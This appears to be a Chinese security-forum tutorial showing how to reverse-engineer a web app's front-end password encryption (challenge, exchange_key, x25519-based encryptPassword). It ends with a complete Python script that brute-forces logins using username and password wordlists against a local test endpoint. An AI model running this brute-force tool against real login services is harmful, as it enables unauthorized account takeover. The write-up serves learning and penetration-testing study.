








# 一次有趣的前端加密分析 - 先知社区

### 前言

一次有趣的密码加密爆破分享，仅供学习参考，如需转载请声明原文链接

## 寻找登录加密点

-   首先按住 ctrl+shift+i 打开开发者调试界面
-   然后找到网络页面，随便输入账号密码提交一次
-   查看启动器，直接点击蓝色的链接转到密码登录处

[](https://xzfile.aliyuncs.com/media/upload/picture/20240320141425-19e82260-e681-1.png)

-   分析 js 代码

[](https://xzfile.aliyuncs.com/media/upload/picture/20240320141502-2fd3923a-e681-1.png)  
可以看到 FinishLogin 将 curItem 转到 doStart () 方法中，dostart () 方法发送了一个 get 请求

```plain
api/source/${curItem.id}/start?login_name=${
              this.loginData[curItem.fields[0]]
这里 curItem.fields[0]是传入的用户名
```

然后从这个链接中获取 challenge 和 exchange\_key 的值

既然有发送请求，那么这个链接从网络日志那里就可以看到了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240320141534-42ded9a2-e681-1.png)

-   查看链接返回的数据

[](https://xzfile.aliyuncs.com/media/upload/picture/20240320141603-54833a68-e681-1.png)  
果然可以看到 challenge 和 exchange\_key 的值

```plain
challenge: "28515141.AYiyasih6qkimRdswF8vhwTs5pGidzZCM18_JCwRe6w"
exchange_key: "Phf6vzG7snJUhy7p-B6splD45vfhp0erZJpMhBni9mk"
```

回到 dostart () 方法  
然后 if 判断使用是否有验证码，若是没有则转到 passwordLogin 方法，并且将 curItem, challenge, exchange\_key 传过去

-   转到 passwordLogin 方法
-   这里直接在这个文件中搜 passwordLogin 就找到了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240320141624-610af4a6-e681-1.png)  
直接看加密的部分，使用了 encryptPassword () 方法，将 `exchange_key，challenge,credentials["password"]` 传入

-   转到 encryptPassword () 方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240320141647-6ea3a23e-e681-1.png)  
可以发现函数所在的路径，转到该文件查看方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240320141713-7e49c952-e681-1.png)

这里的形参 passwordKey 就是我们传入的 exchange\_key，形参 challenge 就是 challenge，password 就是传入的 password

encryptPassword 就是主加密函数，主要的加密方法都在这个文件里，还引用了 x25519.js 文件中的函数

-   大致的加密流程如下：
    -   获取 challenge 和 exchange\_key 的值
    -   使用 jwes.js 文件中的 encryptPassword () 方法传入 challenge、exchange\_key 和 password 进行加密

## 爆破密码

### 环境配置

nodejs 下载安装  
python 导入 execjs 模块

### 代码编写分析

> 前言：这里使用 python 的 execjs 模块来执行 js 中的函数，也就是 encryptPassword () 方法

-   首先将 jwes.js 文件保存至本地
    
-   下载导入所需的模块  
    jwes.js 文件中开头有如下代码  
    `const forge = require("node-forge");`  
    `import x25519 from "./x25519";`  
    所以我们需要下载 js 的第三方模块 forge，并且导入 x25519.js 文件  
    `npm install node-forge`  
    注意：我好像无法使用 import 导入 x25519.js 这个文件，也不知道啥原因，于是我直接将 x25519 的代码将所有的代码粘贴到 jwes.js 文件中，并且修改代码
    
-   将内置变量修改成全局变量
-   静态方法改成普通方法
-   将 export 给去掉
    
    > 大佬们有什么解决方法可以分享下，小弟不甚感激
    

#### python 代码如下

```plain
import os
import execjs
#指定 js 运行环境是 nodejs
os.environ["EXECJS_RUNTIME"] = "NodeJS"
#打开 js 文件，并且指定编码为 utf-8
with open("jwes.js", "r", encoding='utf-8') as f:
    a = execjs.compile(f.read(), cwd=r"D:\environment\NodeJs\node_modules")
pwd = []
f = open("passwd.txt", "r", encoding='utf-8').readlines()
for line in f:
    pwd.append(line.replace("\n", ''))
for i in pwd:
#调用 js 文件中的 encryptPassword() 方法
    result = a.call('encryptPassword', "Phf6vzG7snJUhy7p-B6splD45vfhp0erZJpMhBni9mk","28515141.AYiyasih6qkimRdswF8vhwTs5pGidzZCM18_JCwRe6w", i)
    print(result)
```

-   注意
    -   文件打开的编码类型指定 utf-8
    -   execjs.compile(f.read(), cwd=r"D:/environment/NodeJs/node\_modules")
        -   cwd 指定第三方库的路径

#### 错误解决

-   bug1：运行以上的代码出现如下错误：window is not defined
    
    ```plain
    execjs._exceptions.ProgramError: ReferenceError: window is not defined
    ```
    

根据提示，定位到 window

[](https://xzfile.aliyuncs.com/media/upload/picture/20240320141756-97cca1a6-e681-1.png)

这就是一个生成随机数的函数，但是 window 是浏览器的特性，nodejs 没有这个东西，将这段代码改成如下即可

```plain
function cryptoRandomBytes(length) {
  let array = new Uint8Array(length);
  return crypto.getRandomValues(array)
}
```

-   bug2：js 网络请求错误  
    exchange\_key 不变，但是 challenge 具有实时性，challenge 每一次都不一样，需要从链接 `api/source/${curItem.id}/start?login_name=` 获取  
    但是我无法解决使用 js 获取该网址返回的 json 数据包中的 challenge 字段，一直报错，没办法，我 js 基础太差了，这里使用 python 的 request 模块请求获得 challenge 的值

### python 完整代码

使用 python 获取 challenge 数据，然后将文件中的密码加密，直接使用 python 进行爆破

```plain
import json

import execjs
import requests

successCount = 0


def mzDes(s,para):
    url = 'http://127.0.0.1/api/source/AlbdUKmU/start?login_name=admin'  # 替换为你要获取内容的网页 URL
    response = requests.get(url)
    content = str(response.json()['data']['challenge'])
    despara = execjs.compile(s,cwd=r"D:\environment\NodeJs\node_modules").call("encryptPassword","Phf6vzG7snJUhy7p-B6splD45vfhp0erZJpMhBni9mk",content,para)
    return despara

with open('jwes.js','r', encoding='utf-8') as jsFile:

        a = jsFile.read()
        with open('./users','r', encoding='utf-8') as users:   #des username
            user = users.readlines()
        for u in user:
            with open('passwd.txt','r', encoding='utf-8') as pwds:   #des password
                    uname = u.strip()
                    print(uname)
                    # desUsername = mzDes(s,uname)
                    # print(desUsername)

                    pwd = pwds.readlines()
                    for p in pwd:
                        passwd = p.strip()
                        print(passwd)
                        desPassword = mzDes(a,passwd)
                        print(desPassword)


                        burp0_url = "http://127.0.0.1/api/source/AlbdUKmU/finish"

                        burp0_headers = {"User-Agent": "Mozilla/5.0 Firefox", "Accept": "application/json, text/plain, */*", "X-Requested-With":"XMLHttpRequest", "Accept-Language": "zh-CN,zh;q=0.9", "Content-Type": "application/json;charset=UTF-8", "Origin": "http://127.0.0.1/", "Connection": "close", "Referer": "http://127.0.0.1/login"}
                        burp0_data = {"login_name": uname, "password": desPassword,}

                        rsp = requests.post(burp0_url, headers=burp0_headers, data=json.dumps(burp0_data))

                        if rsp.json()['status'] == 'error':
                            print('error')
                            code = rsp.json()['code']
                            print(code)
                            if code == "UNKNOWN_ACCOUNT":
                                break

                            print("-------------------")
                        else:
                            successCount=successCount+1
                            print("sucess:\n\tuname:"+uname+"\n\tpassword:"+passwd)
                            print("*****正确的密码********")
                            print(rsp.content)

print(successCount)
```
